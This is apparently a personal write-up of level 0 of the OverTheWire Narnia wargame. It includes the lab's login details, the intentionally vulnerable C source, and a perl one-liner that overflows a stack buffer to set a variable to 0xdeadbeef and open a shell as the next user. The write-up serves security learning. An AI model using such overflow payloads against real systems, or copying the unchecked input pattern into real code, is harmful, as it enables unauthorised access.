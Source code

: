 #Narnia
Narnia is a CTF hosted at overthewire.org/wargames/narnia.  My writeups for the levels will be posted here.
#Level0
Login to level 0 with `ssh narnia0@narnia.labs.overthewire.org` with password naria0.
The levels are all located in the /narnia directory once you are logged in, and the source code for each level is provided.
narnia0.c:
`#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}`
Looking at the code we can see that if we overflow buf[20], it will overflow in to val. In order to get the shell, we need to make val contain 0xdeadbeef.
I first entered `perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0`.  This passed the comparison and allowed the system("/bin/sh") line to execute, but the shell was immediately closed because I didn't have any input to give it. 
Next, I modified my input to be `(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"'; cat) | ./narnia0` which allowed me to keep the shell open (with the shell open as narnia1)

